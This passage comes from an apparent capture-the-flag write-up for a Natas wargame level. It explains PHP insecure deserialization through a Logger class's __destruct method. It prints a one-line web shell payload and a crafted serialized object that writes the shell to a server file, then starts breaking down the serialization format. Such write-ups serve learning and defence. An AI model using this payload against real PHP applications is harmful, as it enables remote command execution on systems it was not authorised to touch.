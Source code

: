 Very interesting that the `__destruct` function is defined in this class, as it
can be used to solve the challenge.

## The Solution

There are two parts to this solution:

1. Find a way to exploit the deserialization insecurity
2. Run the exploit to retrieve the `natas27` password

### 1. Exploit Deserialization

As mentioned above, objects that are deserialized in PHP will eventually run the
`__destruct` method of the class. In this challenge the `__destruct` method
contains:

```php
    $fd = fopen($this->logFile, "a+");
    fwrite($fd, $this->exitMsg);
```

Since these variables are controlled in the serialized data, then the exploit is
to set `logFile` to something that is controlled, and `exitMsg` to a remote
code execution script, such as:

```php
    $fd = fopen('img/ehi_exploit.php', "a+");
    fwrite($fd, '<?php system($_GET["cmd"]); ?>');
```

Using a hopefully-unique filename, the `system` command allows playing around
with the `cmd` command that is executed.

The hard part is going to be getting these values into the serialized data. To
explain it first start with the end value:

```
O:6:"Logger":3:{s:15:"\0Logger\0logFile";s:19:"img/ehi_exploit.php";s:15:"\0Logger\0initMsg";s:0:"";s:15:"\0Logger\0exitMsg";s:30:"<?php system(
$_GET["cmd"]); ?>";}
```

This is far from straightforward, but understanding the serialization process of
PHP is a good knowledge to have. To break it down start with `O:6:"Logger":`

- `O` - signify that this is an object
- `:` - separator
- `6` - the name of the object's class is 6 characters long
- `:` - separator
- `"Logger"` - the six character class name, in double quotes
- `:` - separator

So far so good - the serialized data says that there is one object, and it comes
from the class named `Logger`. The next chunk is `3:`, which says that there
are three data values that belong to the object, and the `{` is the start of
those values:
